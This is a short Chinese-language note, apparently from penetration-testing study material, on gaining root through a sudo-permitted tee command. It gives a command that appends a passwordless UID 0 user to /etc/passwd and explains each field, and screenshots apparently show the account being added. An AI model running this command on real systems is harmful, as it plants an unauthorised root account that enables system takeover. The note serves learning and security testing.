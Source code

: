 ### tee 指令提权

tee 命令可以往一个文件追加内容 , 可以通过它向 `/etc/passwd` 写入内容 , 新增一个超级用户

```bash
echo "test::0:0:root:/home/test:/bin/bash" | sudo tee -a /etc/passwd
```

`echo "test::0:0:root:/home/test:/bin/bash"`

- 输出一行文本：

  ```
  test::0:0:root:/home/test:/bin/bash
  ```

- 这是一个 `/etc/passwd` 用户条目的格式：

  ```
  用户名:密码占位:UID:GID:用户信息:主目录:Shell
  ```

- 字段解释：

  - 用户名：`test`
  - 密码占位：空 (`::`) → 如果系统使用 `/etc/shadow` 管理密码，这里空是允许的
  - UID：`0` → root 权限
  - GID：`0` → root 组
  - 用户信息：`root`
  - home：`/home/test`
  - shell：`/bin/bash`

`| sudo tee -a /etc/passwd`

- `tee` 命令可以把标准输入写入文件，同时也可以显示在终端
- `-a` 表示 **append**（追加），不会覆盖原文件
- `sudo` 保证有权限写入 `/etc/passwd`，因为普通用户无法修改系统文件

![](https://pic1.imgdb.cn/item/68d3597ec5157e1a882c1c1e.png)

可以看到添加成功，先修改密码再登录

![](https://pic1.imgdb.cn/item/68d359fac5157e1a882c1c37.png)